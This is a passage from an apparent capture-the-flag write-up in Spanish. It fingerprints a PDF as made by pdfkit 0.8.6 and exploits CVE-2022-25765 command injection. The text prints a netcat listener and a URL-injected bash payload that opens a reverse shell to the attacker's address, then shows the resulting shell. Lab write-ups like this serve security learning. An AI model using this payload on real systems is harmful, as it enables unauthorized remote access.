 Y encontramos lo siguiente:

```bash
❯ exiftool file.pdf
ExifTool Version Number         : 12.16
File Name                       : file.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:05:05 11:49:50-05:00
File Access Date/Time           : 2023:05:05 11:49:50-05:00
File Inode Change Date/Time     : 2023:05:05 11:50:17-05:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
{: .nolineno }

Encontramos con que fue generado (pdfkit v0.8.6), ahora vamos a mirar como podemos explotar dicho servicio

## Análisis de vulnerabilidades

Encontramos en esta página: 

[Command Injection in pdfkit CVE-2022-25765 Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

Que para versiones menores a la `0.8.7.2` hay una vulnerabilidad de `Command Injection` , vamos a intentar y vamos a ver como responde la página.  

Con el servicio `HTTP` corriendo, nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```
{: .nolineno }

Y nos enviamos una consola interactiva

```bash
http://{Attack_ip}:80/?name=%20`bash -c "bash -i >& /dev/tcp/{Attack_ip}/443 0>&1"`
```
{: .nolineno }

Y en efecto, obtenemos una consola interactiva, a la cual le aplicamos su respectivo tratamiento a la TTY

```bash
ruby@precious:/var/www/pdfapp$ whoami
ruby
```
{: .nolineno }
### Advanced Python Scripting - AutoPwn Script
